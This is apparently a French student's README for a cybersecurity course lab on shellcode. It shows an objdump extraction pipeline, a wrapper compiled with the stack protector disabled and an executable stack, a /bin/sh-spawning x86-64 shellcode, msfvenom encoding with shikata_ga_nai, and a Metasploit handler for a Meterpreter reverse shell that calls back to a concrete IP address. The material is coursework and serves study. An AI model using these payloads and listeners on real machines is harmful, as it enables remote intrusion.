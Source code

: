 Gaspard PEPIN
ING 3 Cyber Groupe A

Cours sur les shellcodes

Concernant shellcode01.c : 

Pour récupérer le shellcode (très long), j'ai trouvé la commande suivante sur internet utilisant objdump :

objdump -d ./shellcode|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'       


Concernant wrapper.c : 

Modifié d'internet, il prend un argument un shellcode qu'il charge en mémoire et l'exécute ensuite.   
J'ai du mal à le faire fonctionner même avec des shellcodes très courts.   
J'en ai donc trouvé un plus simple mais qui ne fonctionne pas.   
Et on le compile avec :   
gcc wrapper.c -o wrapper -fno-stack-protector -z execstack   

exemple de lancement (ouverture bin/sh) :   
./wrapper $(python2 -c 'print("\x48\x31\xd2\x48\xbb\x2f\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05")')   

Concernant asm32 et asm64 :

Compilable avec ./build.sh < asmX >   
Lancement de l'executable avec ./asmX

Afin de voir la valeur des returns, faire echo $?   

Pour asm05, il faut avoir asm01 de générer.


Concernant MSF :

Voici les commandes à faire dans le dossier msf pour avoir les shellcodes :

msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm01_32.shellcode < ../asm32/asm01   
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm02_32.shellcode < ../asm32/asm02    
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm03_32.shellcode < ../asm32/asm03    
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm04_32.shellcode < ../asm32/asm04    
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm05_x32.shellcode < ../asm32/asm05    
msfvenom -a x86 --platform linux -e x86/shikata_ga_nai -f c -i 2 -o asm06_32.shellcode < ../asm32/asm06    


Pour les reverseShell et bindShell, il faut faire ces commandes dans le terminale host et lancer l'un des deux prg sur la machine cible.   

msfconsole   
use exploit/multi/handler   
set PAYLOAD windows/meterpreter/reverse_tcp   
set LPORT 7777   
set LHOST 176.100.43.89   
exploit   
